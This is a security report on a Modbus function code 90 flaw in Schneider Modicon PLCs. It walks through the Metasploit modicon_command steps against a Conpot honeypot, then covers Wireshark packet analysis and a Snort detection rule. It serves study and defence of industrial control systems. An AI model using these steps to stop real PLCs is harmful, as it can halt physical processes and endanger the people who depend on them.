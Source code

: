 # Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting working status of PLC.
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack

The module used was written by K. Reid Wightman. Let's start with her saying that  "The exploit is otherwise reliable, but depends on a specific version and can't (or doesn't) reliably autodetect."

***

# Vulnerability Overview

#### Improper Input Validation

This module allows a remote user to change the status of the PLC between stop and run.


For this, this module sends a series of initialization requests.<br>


#### Vulnerability Details
The Schneider Modicon with Unity series of PLCs use Modbus function code 90 (0x5a) to perform administrative commands without authentication.

It communicates using ModBus, or Telnet over Ethernet as well as<br>

Having a web server built in that allows a user to issue commands.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.



## Impact

Successful exploitation of this vulnerability would allow an attacker to end process control by the PLC, allowing the PLC to switch its state between stop and run. Thus, the attacker can create many problems depending on the PLC's function.<br>

Impact to individual organizations depends on many factors that are unique to each organization.

<br>

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/admin/scada/modicon_command
```

```
# show options
```

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>


paramateres.

```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# exploit
```

As you can see above, dos attack has started.

***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark1.png">
</p>

Double-clicking on the line will open the package content. 
<br>
If we click Ethernet II line the linked parts will be highlighted. And so we can see the address information and the name of the protocol used.

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark2.png">
</p>

<br>
IP Header holds network layer information. Of these, it keeps the information of the IPv4 protocol, which is accepted as the backbone of the OSI model, in all its details.


<br>
<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshrak3.png">
</p>

<br>
TCP, UDP, ICMP are important protocols of the transport layer of the OSI model given in the host-to-host connection. They play an important role in the error-free transmission of data. When it examines network layer information in Wireshark, you can see that TCP is used to communicate with the target device.
 
***

# Rules
As a result of using this module, an alarm as below was generated by the snort on the target machine.
<br>

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/alarm_command.png">
</p>

<br>

Accordingly, we can say that there is a rule used for the modicon_command module on snort. The rules used are as follows.
<br>

<p align="center" padding-top="20px">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/kural1.png">
</p>

<br>
As in the picture, the following rule is defined in the builtins.rules file in the latest version of snort. If we make a brief definition about the parameters in the rule. The GID (Generator id) is used to identify which part of Snort fires when a particular rule runs. When we want to define a new rule for Snort, we must give values ​​starting from 1,000,000 so that it does not conflict with the existing rules. We also need to use GID with SID. We can think of the SID as the ID of the snort rules. Since Snort has revised 1,000,000 rules, we must start the SID at 1,000,000 when writing our own rules. We should also use SID with REV (revision). REV is the rule revision number. That is, it shows the revision number of a particular rule. The number of revisions increases by one when a rule is improved or a more accurate signature is added. This way we can identify which version of the rule triggered the alert.

<br>


```
alert (
gid:144; sid:3; rev:2;
msg:"(modbus) reserved Modbus function code in use";
metadata:rule-type preproc;
classtype:protocol-command-decode;
)
```
<br>

The message part is the message that the alarm will show when it is activated. Metadata is used to provide additional information to Snort. Metadata allows the rule writer to add additional information about the rule, usually in key-value form. Metadata information is required if rules are to be written for “well-known” protocols. Otherwise, the relevant port will not be triggered.

<br>


<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/config_classtype.png">
</p>

<br>

Classtype is used to categorize an attack whose rule is part of a more general attack class type. In other words, we can think of it as a category that we will choose from the classtype attack set. As seen above, it is defined in the classification.config file.
